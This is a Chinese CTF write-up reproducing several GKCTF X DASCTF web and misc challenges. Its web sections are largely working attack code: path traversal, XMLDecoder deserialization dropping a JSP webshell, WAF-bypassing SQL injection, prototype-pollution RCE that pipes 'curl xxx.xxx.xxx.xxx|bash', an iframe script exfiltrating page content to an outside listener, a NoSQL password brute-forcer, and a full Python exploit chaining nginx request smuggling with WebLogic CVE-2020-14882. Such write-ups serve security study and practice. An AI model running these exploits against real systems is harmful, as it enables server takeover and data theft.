










# Nepnep学习报告 web第八周

- GKCTF X DASCTF应急挑战杯 全复现(除PWN)

## WEB

### easycms

弱密钥 admin/12345



后台 > 内容 > 组件 > 素材库 > 上传 txt 文件 修改文件名 ../../../../../system/tmp/psyr




高级 > 加php语句保存 > 访问前台index.php getshell





### babycat & babycat-revenge

说是不让注册但是抓包得到的源码需要自己填写注册信息

```
<script type="text/javascript">
    // var obj={};
    // obj["username"]='test';
    // obj["password"]='test';
    // obj["role"]='guest';
    function doRegister(obj){
        if(obj.username==null || obj.password==null){
            alert("用户名或密码不能为空");
        }else{
            var d = new Object();
            d.username=obj.username;
            d.password=obj.password;
            d.role="guest";

            $.ajax({
                url:"/register",
                type:"post",
                contentType: "application/x-www-form-urlencoded; charset=utf-8",
                data: "data="+JSON.stringify(d),
                dataType: "json",
                success:function(data){
                    alert(data)
                }
            });
        }
    }
</script>
```

通过注册用户登陆后借助 /home/download?file=../../static/cat.gif 发现可以目录穿梭下载文件

```
/home/download?file=../../WEB-INF/classes/com/web/servlet/registerServlet.class
/home/download?file=../../WEB-INF/classes/com/web/servlet/uploadServlet.class
```

在注册的class里面发现了注册匹配的路径

```
    String var = req.getParameter("data").replaceAll(" ", "").replace("'", "\"");
    Pattern pattern = Pattern.compile("\"role\":\"(.*?)\"");
    Matcher matcher = pattern.matcher(var);
    while (matcher.find())
      role = matcher.group(); 
    if (!StringUtils.isNullOrEmpty(role)) {
      var = var.replace(role, "\"role\":\"guest\"");
      person = (Person)gson.fromJson(var, Person.class);
    } else {
      person = (Person)gson.fromJson(var, Person.class);
      person.setRole("guest");
    } 
    System.out.println(person);
```

通过正则匹配role属性, 但是json传参可以通过**注释**和**unicode编码**绕过

```
data={"username":"2","password":"2","role":"guest","role":/**/"admin"}
data={"username":"3","password":"3","\u0072\u006F\u006C\u0065":"admin",'1':{"role":"admin"}}
```

> **json特性**
>
> `{"a":"1","a":"2"}`。后面的值会覆盖前面的值。并且支持`/**/`注释。所以这里第一个role让他匹配到。进入替换逻辑。然后第二个role用`/**/`不让匹配到。又能正常解析。覆盖前面的role。

下载../WEB-INF/web.xml之后下载全部的class, 其中在 baseDao.class 中有个 XMLDecoder, 通过环境变量得到绝对路径(非预期的babycat在此可以任意文件上传, 检测后程序未退出导致文件继续上传)

```
../../../../../../../proc/self/environ
../../WEB-INF/db/db.xml
```

得到环境变量

```
SHELL=/bin/sh 
PWD=/home/app 
LOGNAME=app 
HOME=/home/app CATALINA_BASE=/usr/local/tomcat CATALINA_HOME=/usr/local/tomcat 
USER=app 
SHLVL=0 
JDK_JAVA_OPTIONS= 
--add-opens=java.base/java.lang=ALL-UNNAMED 
--add-opens=java.base/java.io=ALL-UNNAMED 
--add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED 
PATH=/usr/local/tomcat/bin:/usr/local/openjdk-8/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin MAIL=/var/mail/app 
```

搜`printwriter xmldecoder 反序列化` 会有[链接]( https://www.cnblogs.com/peterpan0707007/p/10565968.html )

模板

```
<java version="1.4.0" class="java.beans.XMLDecoder">
           <object class="java.io.PrintWriter"> <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/pan.jsp</string><void method="println">
                    <string><![CDATA[`此处放马（因为马的代码量太长顾不在此处展示ps:此处上传的不要带有中文要不会报错，可删掉中文上传，也可进行编码处理）`]]></string></void><void method="close"/>
           </object>
       </java>
```

覆盖 db.xml 进行 XMLDecoder 反序列化, 通过文件路径目录穿梭

```
../../WEB-INF/db/db.xml
```

访问 /register 触发反序列化拿到shell, 冰蝎连接 /readflag


### easynode

看下waf

```js
    const waf = (str)=>{
        blacklist = ['\\','\^',')','(','\"','\'']
        blacklist.forEach(element => {
            if (str == element){
                str = "*";
            }
        });
        return str;
    }
```

> slice() 方法可提取字符串的某个部分，并以新的字符串返回被提取的部分。 

```
stringObject.slice(start,end)
```

> 该waf遇⻅加号的情况下，会直接将字符串左右的内容进行一个"加"运算，如果⽤nodeJS做过开发的师傅应该知道该⽅法经常⽤于将数字，对象等转换为字符串。 
>
> 到这⾥绕过的⽅法就跃然纸上了,我们可以先利⽤数组绕过，在我们的payload最后⼏段元素 。当中⼜加上waf会过滤的内容，这样就会将我们输⼊的数组⼜转回字符串了。

```js
const format = require('string-format');
var a = ["admin'or 1=1#",1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,"("];  // 通过非法字符再变回字符串
var password = '1';
username = safeStr(a);
let sql = format("select * from test where username = '{}' and password = '{}'",username.substr(0,20),password.substr(0,20));
console.log(sql);
// select * from test where username = 'admin'or 1=1#,1,1,1,' and password = '1'
```

#### 核心思路

本题上来判别为数组使得一开始的 i++ 是数组递增, 例如传入的数组 `["admin'or 1=1#",1,1,1,1,"("]` 则 str.length 判定的是数组长度为6, 每次只会对数组的第一位, 直至 i=5 的时候查到了 `(`, 导致数组与字符串通过 `+` 拼接变为了18位的字符串, 次时 str.length 判定字符串长度为18, 这时会执行 i=5 之后的 i++, 从 i=6 这一位开始继续waf, 从而绕过了对第五位 `'` 的检测, 最后得到的是字符串 `admin'or 1=1#,1,1,1,1*` 的结果, 然后截取前20位则为 `admin'or 1=1#,1,1,1,` 给回 username 这个变量中

在浏览器中的写法(比较复杂的写法)

```
username[]=admin'or+1=1%23&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username[]=1&username=(&password=1
```

在DIV模块下回读取用户的用户名，之后将DIV的键名和值直接导⼊进去，所以我们需要先注册⼀个用户为__proto__，再污染 `outputFunctionName` 进行RCE (/adminDIV拼接处)

 ```
        for(var key in data){
            var addDIV =`{"${username}":{"${key}":"${(data[key])}"}}`;
            extend({},JSON.parse(addDIV));
        }
 ```

注册 `__proto__` 账号 > 登录 > 访问/adminDIV > 访问/admin触发原型链污染

```
data={"outputFunctionName":"__tmp1;global.process.mainModule.require('child_process').exec('curl xxx.xxx.xxx.xxx|bash');var __tmp2"}
```

添加成功访问 /admin


公网监听后 cat /flag


### CheckBot

post传参给bot

```
<!--
    I am a check admin bot, I will check your URL file suffix!
    ------------------------------------------------------------
    POST url for bot!
-->
```

有个 admin.php

```php
<p id="flag"><?php 
error_reporting(0); 
$ip = $_SERVER["REMOTE_ADDR"]; 
if (filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE |FILTER_FLAG_NO_RES_RANGE)===false) { 
	echo exec('cat /flag'); 
}else{
	echo $ip; 
} 
?></p>
```

然后vpn起一个页面给bot访问(BUU的貌似不出网就...没收到信息)

```html
<iframe id="flag" src="http://127.0.0.1/admin.php"></iframe>

<script>
function load(){
var iframe = document.getElementById("flag").contentWindow.document.getElementById("flag").innerHTML;
console.log(iframe);
fetch('http://xxx.xxx.xxx.xxx:8888', {method: 'POST', mode: 'no-cors', body: iframe})
}

window.onload = load;
</script>
```

得耐心等一会...然后enter一下监听发现就有了


比较折磨人, 本质是通过抓取iframe的内容传输给监听的网页

### hackme

提示 nosql 注入, 有login.php, admin.php

```
<!--doyounosql?-->
```

这⾥过滤了regex/ne/eq字符，因为是json，所以可以⽤unicode来绕过

```
{"username":{"\u0024\u0072\u0065\u0067\u0065\u0078":"admin"},"password":{"\u0024\u0072\u0065\u0067\u0065\u0078":"1"}}
```

尝试了用php脚本匹配正则

```php
<?php
function send($txt){
    $fp = fsockopen("node3.buuoj.cn",25393,$errno,$errstr,30);
    if(!$fp){
        echo "$errstr ($errno)<br />\n";
        return "";
    }else{
        $data=<<<EOF
POST /login.php HTTP/1.1
Host: node3.buuoj.cn:25393
Cookie: track_uuid=e3841930-038f-40e8-cb2b-7dded6b90e04; UM_distinctid=179e00908ee808-0ed9fb6c64e50e-4c3f2c72-144000-179e00908ef712
Content-Length: %s
Connection: close

%s
EOF;
        $d='{"username":{"$\u0065\u0071":"admin"},"password": {"$\u0072\u0065\u0067\u0065\u0078":"^%s"}}';  // $eq 等于 $regex 正则匹配
        $d=sprintf($d,$txt);
        $out=sprintf($data,strlen($d),$d);
        fwrite($fp,$out);
        $content = '';
        while(!feof($fp)){
            $content .= fgets($fp,128);
        }
        fclose($fp);
        if(stripos($content,"登录了，但没完全登录")){
            return $txt;
        }else{
            return "";
        }
    }
}

$pwd = "";
$ch = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'];
for ($c=0; $c < 100; $c++){
    for($i=0; $i < count($ch); $i++){
        $res = send($pwd.$ch[$i]);
        if($res !== ""){
            $pwd = $res;
            print($pwd);
            echo "\n";
            break;
        }
    }else{
        echo "Char lost!\n";
        break;
    }
}
```

得到用户/密码

```
admin/42276606202db06ad1f29ab6b4a1307f
```

尝试 info.php, 感觉是用php执行的, 尝试其它文件

```
/etc/passwd
/flag
```

得到提示, flag在内网中, 看下内网

```
/etc/hosts
/proc/net/arp
```

得到

```
IP address       HW type     Flags       HW address            Mask     Device
10.0.78.6        0x1         0x2         02:42:0a:00:4e:06     *        eth0
10.0.78.2        0x1         0x2         02:42:0a:00:4e:02     *        eth0
```

看了info.php, 发现可以打session文件包含这个功能, 通过生成临时session然后php访问上🐎, 通过phpinfo得知绝对路径 ` /usr/local/nginx/html/ `, session放置的位置`	/var/opt/remi/php72/lib/php/session`, 打info.php然后admin.php访问即可, 但是很卡打不进去了...

那就用预期解打...发现返回的响应Server

```
Server: nginx/1.17.6
```

在1.17.7之前版本中的error_page 存在[⾛私漏洞](https://v0w.top/2020/12/20/HTTPsmuggling/#5-1-%EF%BC%88CVE-2019-20372%EF%BC%89Nginx-error-page-%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E6%BC%8F%E6%B4%9E ), 查看一下 nginx 配置

```
/usr/local/nginx/conf/nginx.conf
```

发现内网 weblogic

```
    # weblogic
    server {
		listen       80;
		server_name  weblogic;
		location / {
			proxy_set_header Host $host;
			set $backend weblogic;
			proxy_pass http://$backend:7001;
		}
	}
}
```

通过 socket 进行走私, 打weblogic CVE-2020-14882 (WebLogic Server Version: 12.2.1.4.0)

```python
# -*-coding:utf-8-*-
#!/usr/bin/env python3
'''
    @Use: nginx 1.17.6 http走私请求和weblogic CVE-2020-14882 回显poc
'''
import sys
import socket
import requests
import urllib.request

def request(content, hostname, port):
    print(content)

    def issue_request(server):
        assert server.send(content) == len(content)
        data = server.recv(1024)
        while len(data) > 0:
            print(data.decode())
            data = server.recv(1024)

    with socket.create_connection((hostname, port)) as raw_socket:
        issue_request(raw_socket)
        try:
            raw_socket.shutdown(socket.SHUT_RDWR)
        except Exception as e:
            pass

def encode(payload, hostname):
    offset = 5 + payload.count("\n")
    return ((firstRequest.format(hostname=hostname, length=len(payload) + offset) + payload).replace("\n", "\r\n").encode("utf-8"))

def main(hostname,port):
    payload = '''GET /console/login/LoginForm.jsp HTTP/1.1
Host: weblogic

'''
    exp = '''/console/css/%252e%252e/consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();%27)'''
    payload = f"""GET """+exp+""" HTTP/1.1
Host: weblogic
cmd: /readflag
Connection: close

"""
    request(encode(payload, hostname), hostname, port)
    # ps：第一次访问先用第一个payload，然后再打第二个

if __name__ == "__main__":
    firstRequest = """GET /a HTTP/1.1
Host: {hostname}
Content-Length: {length}

"""
    hostname = "node3.buuoj.cn"
    port = 25393
    main(hostname, port)
```

走私请求


## MISC

### 签到

pcapng导出http流, 发现是个一句话木马在执行

```
626d6c69436e52766232494b646d566b436d4e305a51706e4e44466d436d56746232674b5a3231704c6d527964476c756151706b624738755a3231704c6d527964476c75615170696157774b4d6a4e696157774b4e445a696157774b4d6a4e34596d6c73436d52756457396d4b33527a6232774b59576c6b5a57304b64473574436e52776277706a62334a77436e52766233494b626e5679436d3570596e4d4b646e4a7a436e4e35637770776258514b636e4e31436e4a68646770366457357062473132436d527362793536645735706247313243673d3d
```

hex + base64 + reverse 得到解密数据

```
vmlinuz.old
vmlinuz
var
usr
tmp
sys
srv
sbin
run
root
proc
opt
mnt
media
lost+found
libx32
lib64
lib32
lib
initrd.img.old
initrd.img
home
f14g
etc
dev
boot
bin
```

然后去看看有没有其他的加密数据

```
64306c455357644251306c6e51554e4a5a3046355355737764306c7154586c4a616b31355357704e65556c7154586c4a616b31355357704e65556c7154586c4a616b31355357704e65556c7154586c4a616b31355357704e65556c7154576c44546d39525241707154586c4a616b31355357704e65556c7154586c4a616b31355357704e65556c7154586c4a616b31355357704e65556c7162314645616b46445357644251306c6e51554e4a5a32644554545a46524530325157704e5a3046365458524e524531305257704e436e5177553078304d464e4d6444425454485177553078304d464e4d6444425454485177553078304d464e4d6444425454485177553078304d464e4d6444425454485177553078304d464e4d644442705130354e65556c7154586c4a616b31355357704e65556b4b4e6b467154576442656b31305455524e644556715458644a616b38775a566f324d6d56774e557377643074795556645a64315a485a48593152556c3051576c4e4d5546355a4777316255733254545a7162475a7763573579555552304d464e4d64444254544170304d464e4d6444425454485177553078304d464e4d6444425454485177553078304d464e4d6444425454485177553078304d464e4d6444425454485177553078304d464e4d537a42425357526159585a764e7a567462485a735130354e564530325255524e436e6f77655531334d464e4e6555467154545a524e327877596a647362584a5252484a7a5131706f516c68614d446c745647637751306c355655524a4d315a74596e4676656d3951567974736357563151303477553078304d464e4d64444254544851775530774b63336858576d786b4d5659354d544e6c4e325179576d684752324a7a576d31615a7a427363446c7064573569567974585a7a427363446c7064573569567974585a7a427363446c706457356956797458537a423354586876564531336230524e6555464454517045546a4252524534775555527356324636546c684e65444258596d593562464a48556b524f5245347759584a6b4d464a6d4f565a6162444658596e644252456c6b556d46746345524c61577832526b6c6b556d46746345524c61577832566b747754544a5a436a303955556c6f545442525245347755516f3d
```

找到关键加密数据 hex + base64 + reverse + base64



```
CCCCC!!cc))[删除] [删除] 00mmee__GGkkCC44FF__mm11ssiiCCCCCCC0 20:01:13
[回车] [回车] [回车] ffllaagg{{}}WWeell-----------
窗口:*new 52 - Notepad++
时间:2021-03-301:13
[回车] 
---------------------------------------------
窗口:*new 52 - Notepad++
时间:2021-03-30 20:###########
--------------------------------------------21-03-30 20:01:08         #
############################

#######################################
#         20
```

双写的flag

```
flag{Welc0me_GkC4F_m1siCCCCCC!}
```

### 你知道apng吗

apngdis 执行得到许多png, 可以看出是一套图片, 里面藏了4个二维码

1


2


3


4


依次扫描后拼接得到 flag

```
